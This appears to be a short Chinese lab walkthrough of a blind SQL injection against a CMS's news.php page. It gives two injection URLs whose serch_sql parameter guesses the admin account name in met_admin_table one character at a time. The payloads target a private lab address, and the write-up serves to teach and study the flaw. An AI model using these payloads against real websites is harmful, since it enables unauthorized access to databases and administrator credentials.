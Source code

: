 
# 实战
在浏览器输入
```
http://IP:PORT/install/
```
## 安装

![image]({path}/1.png)

![image]({path}/2.png)

![image]({path}/3.png)

![image]({path}/4.png)



## 攻击实战

我们去猜测admin表，如果admin表里面的admin_id的第一个字母为a的话，那么页面里面有值,这样一来 比sql注入更为简单了97那个位置，然后在判断第二位，再穷聚 自然就爆表了.


在浏览器输入
```
http://192.168.1.170:7777/news/news.php?lang=cn&class2=5&serch_sql=as a join met_admin_table as b where if(ascii(substr(b.admin_id,1,1))=97,1,0) limit 0,1-- sd&imgproduct=xxxx 
```

![image]({path}/5.png)

```
http://192.168.1.170:7777/news/news.php?lang=cn&class2=5&serch_sql=as a join met_admin_table as b where if(ascii(substr(b.admin_id,1,1))=96,1,0) limit 0,1-- sd&imgproduct=xxxx 
```
![image]({path}/6.png)



